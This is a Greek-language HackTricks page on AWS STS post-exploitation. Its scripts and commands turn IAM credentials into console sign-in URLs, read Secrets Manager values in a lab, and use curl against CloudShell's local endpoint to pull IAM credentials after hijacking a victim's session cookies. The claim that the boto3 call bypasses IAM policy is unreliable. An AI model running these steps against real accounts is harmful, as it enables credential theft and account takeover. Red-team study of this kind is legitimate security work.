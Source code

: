 # AWS - STS Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## STS

Για περισσότερες πληροφορίες:

{% content-ref url="../../aws-security/aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../../aws-security/aws-services/aws-iam-enum.md)
{% endcontent-ref %}

#### Νέα Μέθοδος Δεκέμβριος 2024: Παράκαμψη Απαιτήσεων για Σύνδεσμο Ιστοσελίδας, Με HTTPS POST Αίτημα Στο SecretsManager API Για Άμεση Απόκτηση Μυστικών (Χωρίς Σύνδεσμο Σύνδεσης Ή Ιστοσελίδα)

Υποβλήθηκε χθες, ως PR για την επερχόμενη εξέταση (ARTE: ex16x41) ωστόσο βλέπω ότι το PR δεν εμφανίζεται, ίσως υποβλήθηκε λάθος, ας προσπαθήσουμε ξανά:
Χρησιμοποιώντας αυτή τη μέθοδο παρακάμπτετε εντελώς την απαίτηση για άνοιγμα οποιωνδήποτε URL, μορφοποίηση οποιωνδήποτε συνδέσμων σύνδεσης ή ακόμα και χρήση του CLI / Ιστοσελίδας.
Τι κάναμε λοιπόν εδώ;
Έγραψα αυτό το σενάριο που αλληλεπιδρά απευθείας με το AWS Secrets Manager API, είναι απολύτως απλό και ευθύ.
Όταν εκτελείτε το σενάριο, στέλνει ένα HTTPS POST αίτημα στο AWS Secrets Manager endpoint
https://secretsmanager.<region>.amazonaws.com/
Το αίτημα GetSecretValue αποστέλλεται ως μέρος του POST αιτήματος, πιστοποιημένο με υπογραφή SigV4 (διαχειριζόμενο από το boto3).
Ο Secrets Manager Επεξεργάζεται το Αίτημα:
Η AWS επικυρώνει το αίτημα σύμφωνα με τις πολιτικές IAM που είναι συνδεδεμένες με τον χρήστη ή τον ρόλο σας (όπως γνωρίζουμε μπορούμε να δούμε την τιμή του μυστικού μόνο ως ιστοσελίδα)
Εάν επιτρέπεται, η υπηρεσία Secrets Manager επιστρέφει την ζητούμενη τιμή μυστικού στην απάντηση.
**Δημοσίευση POC:**
Η εντολή CLI AWS για να αποκτήσετε την τιμή του μυστικού δεν λειτουργεί επειδή η πρόσβαση απορρίπτεται ->
Ωστόσο, στην εικόνα μπορείτε να δείτε την απλότητα της μεθόδου για να εξαγάγετε απευθείας τη σημαία γνωρίζοντας το ID του μυστικού (αυτό το ενοποιούμε σε πρώιμο στάδιο όταν συνδεόμαστε με το προφίλ χρήστη)
![image](https://github.com/user-attachments/assets/d05a1a96-04c0-4404-b4bd-dbfa93c6494b)
Σημείωση: Νομίζω ότι αυτή η μέθοδος μπορεί να χρησιμοποιηθεί καθολικά ανάλογα με το σενάριο αν η πολιτική επιτρέπει (αλλά παρακάμπτει περιορισμούς πολιτικής που δεν επιτρέπει μέσω CLI)
Έτσι, αυτό μπορεί να χρησιμοποιηθεί οποτεδήποτε μια πολιτική επιτρέπει (ως εναλλακτική επιλογή δοκιμής)
Σημείωση: περίεργος για άλλες τεχνικές που μπορείτε να εφαρμόσετε χρησιμοποιώντας την ίδια μέθοδο άμεσης αλληλεπίδρασης με το API της υπηρεσίας και τώρα το AWS CLI, για οποιαδήποτε διαδικασία priv esc ή post exploitation όπως εδώ.
**Κώδικας:**
'''
Python
import boto3

session = boto3.Session(profile_name="lab6")
client = session.client("secretsmanager", region_name="us-east-1")

# Set a custom User-Agent
client.meta.events.register(
'before-call.secretsmanager.GetSecretValue',
lambda params, **kwargs: params['headers'].update({'User-Agent': 'my-custom-tool'})
)

# Retrieve the secret value directly via secretsmanager API
response = client.get_secret_value(SecretId="flag_sts_lab_3")
print(response['SecretString'])
'''

### Από IAM Πιστοποιήσεις Στη Ιστοσελίδα

Εάν έχετε καταφέρει να αποκτήσετε κάποιες IAM πιστοποιήσεις μπορεί να σας ενδιαφέρει να **έχετε πρόσβαση στην ιστοσελίδα** χρησιμοποιώντας τα παρακάτω εργαλεία.\
Σημειώστε ότι ο χρήστης/ρόλος πρέπει να έχει την άδεια **`sts:GetFederationToken`**.

#### Προσαρμοσμένο σενάριο

Το παρακάτω σενάριο θα χρησιμοποιήσει το προεπιλεγμένο προφίλ και μια προεπιλεγμένη τοποθεσία AWS (όχι gov και όχι cn) για να σας δώσει ένα υπογεγραμμένο URL που μπορείτε να χρησιμοποιήσετε για να συνδεθείτε στην ιστοσελίδα:

{% code overflow="wrap" %}
```bash
# Get federated creds (you must indicate a policy or they won't have any perms)
## Even if you don't have Admin access you can indicate that policy to make sure you get all your privileges
## Don't forget to use [--profile <prof_name>] in the first line if you need to
output=$(aws sts get-federation-token --name consoler --policy-arns arn=arn:aws:iam::aws:policy/AdministratorAccess)

if [ $? -ne 0 ]; then
echo "The command 'aws sts get-federation-token --name consoler' failed with exit status $status"
exit $status
fi

# Parse the output
session_id=$(echo $output | jq -r '.Credentials.AccessKeyId')
session_key=$(echo $output | jq -r '.Credentials.SecretAccessKey')
session_token=$(echo $output | jq -r '.Credentials.SessionToken')

# Construct the JSON credentials string
json_creds=$(echo -n "{\"sessionId\":\"$session_id\",\"sessionKey\":\"$session_key\",\"sessionToken\":\"$session_token\"}")

# Define the AWS federation endpoint
federation_endpoint="https://signin.aws.amazon.com/federation"

# Make the HTTP request to get the sign-in token
resp=$(curl -s "$federation_endpoint" \
--get \
--data-urlencode "Action=getSigninToken" \
--data-urlencode "SessionDuration=43200" \
--data-urlencode "Session=$json_creds"
)
signin_token=$(echo -n $resp | jq -r '.SigninToken' | tr -d '\n' | jq -sRr @uri)



# Give the URL to login
echo -n "https://signin.aws.amazon.com/federation?Action=login&Issuer=example.com&Destination=https%3A%2F%2Fconsole.aws.amazon.com%2F&SigninToken=$signin_token"
```
{% endcode %}

#### aws\_consoler

Μπορείτε να **δημιουργήσετε έναν σύνδεσμο ιστού κονσόλας** με [https://github.com/NetSPI/aws\_consoler](https://github.com/NetSPI/aws\_consoler).
```bash
cd /tmp
python3 -m venv env
source ./env/bin/activate
pip install aws-consoler
aws_consoler [params...] #This will generate a link to login into the console
```
{% hint style="warning" %}
Βεβαιωθείτε ότι ο χρήστης IAM έχει άδεια `sts:GetFederationToken`, ή παρέχετε έναν ρόλο για να αναληφθεί.
{% endhint %}

#### aws-vault

[**aws-vault**](https://github.com/99designs/aws-vault) είναι ένα εργαλείο για την ασφαλή αποθήκευση και πρόσβαση στα διαπιστευτήρια AWS σε ένα περιβάλλον ανάπτυξης.
```bash
aws-vault list
aws-vault exec jonsmith -- aws s3 ls # Execute aws cli with jonsmith creds
aws-vault login jonsmith # Open a browser logged as jonsmith
```
{% hint style="info" %}
Μπορείτε επίσης να χρησιμοποιήσετε το **aws-vault** για να αποκτήσετε μια **συνεδρία κονσόλας προγράμματος περιήγησης**
{% endhint %}

#### Από την Κονσόλα στα IAM Creds

[**Ανακαλύφθηκε αρχικά σε αυτή την ανάρτηση**](https://blog.christophetd.fr/retrieving-aws-security-credentials-from-the-aws-console/), Εάν καταφέρετε να παραβιάσετε κάποια πρόσβαση σε μια διαδικτυακή κονσόλα (ίσως κλέψατε cookies και δεν μπορούσατε να αποκτήσετε πρόσβαση στον φάκελο .aws), μπορείτε να αποκτήσετε κάποια IAM token credentials για αυτόν τον χρήστη μέσω του **CloudShell**.

Το CloudShell εκθέτει IAM credentials μέσω ενός **μη τεκμηριωμένου endpoint στην πόρτα 1338**. Αφού φορτώσετε τα session cookies του θύματος στον περιηγητή σας, μπορείτε να μεταβείτε στο CloudShell και να εκδώσετε τις παρακάτω εντολές για να αποκτήσετε IAM credentials.
```bash
TOKEN=$(curl -X PUT localhost:1338/latest/api/token -H "X-aws-ec2-metadata-token-ttl-seconds: 60")
curl localhost:1338/latest/meta-data/container/security-credentials -H "X-aws-ec2-metadata-token: $TOKEN"
```
{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
